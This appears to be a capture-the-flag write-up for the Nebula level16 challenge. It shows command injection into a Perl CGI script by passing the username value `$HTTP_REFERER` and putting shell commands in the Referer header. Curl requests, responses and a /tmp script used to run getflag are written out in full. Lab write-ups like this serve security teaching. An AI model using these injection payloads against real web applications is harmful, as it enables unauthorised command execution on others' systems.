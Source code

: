 we need to get command execution in the following line:
`@output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;`
but $username is converted to uppercase and split at the first space:
```
$username =~ tr/a-z/A-Z/;
$username =~ s/\s.*//;
```

$username is the only thing that goes into the backticks, so passing $password is useless to us
looking at [the perl CGI reference](http://www.cgi101.com/book/ch3/text.html),
we can see that there are a lot of user controllable variables that exist in
the $ENV array, and they're all uppercase, so the transformation doesn't affect us.
perl passes it's environment from $ENV down to the shell that's spawned with the backticks,
so we can access these variables not as $ENV["NAME"] as you would in perl, but
just simply as $NAME. we can then just wrap a user controlled environment
variable in backticks to run the contents of it. I used `$HTTP_REFERER` and then
made sure it was set it in the headers.

trying to simply execute cat to see if the request hangs works successfully:
```$ curl -H 'Referer: cat' -v 'http://192.168.122.28:1616/index.cgi?username=`$HTTP_REFERER`'     
*   Trying 192.168.122.28...
* Connected to 192.168.122.28 (192.168.122.28) port 1616 (#0)
> GET /index.cgi?username=`$HTTP_REFERER` HTTP/1.1
> Host: 192.168.122.28:1616
> User-Agent: curl/7.47.1
> Accept: */*
> Referer: cat
> 
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-type: text/html
< 
```

we can now try to run getflag, passing output to a file in /tmp:
``` curl -H 'Referer: getflag>/tmp/output' -v 'http://192.168.122.28:1616/index.cgi?username=`$HTTP_REFERER`'
```
this doesn't work for whatever reason - probably something to do with either
http encoding or sh interpreting redirection wrongly.
instead, we write a file to tmp and simply execute that.
``` level16@nebula:~$ echo "getflag > /tmp/output" > /tmp/run
level16@nebula:~$ chmod +x /tmp/run
```
``` curl -H 'Referer: /tmp/run' -v 'http://192.168.122.28:1616/index.cgi?username=`$HTTP_REFERER`'
```
```
level16@nebula:~$ cat /tmp/output
You have successfully executed getflag on a target account
```
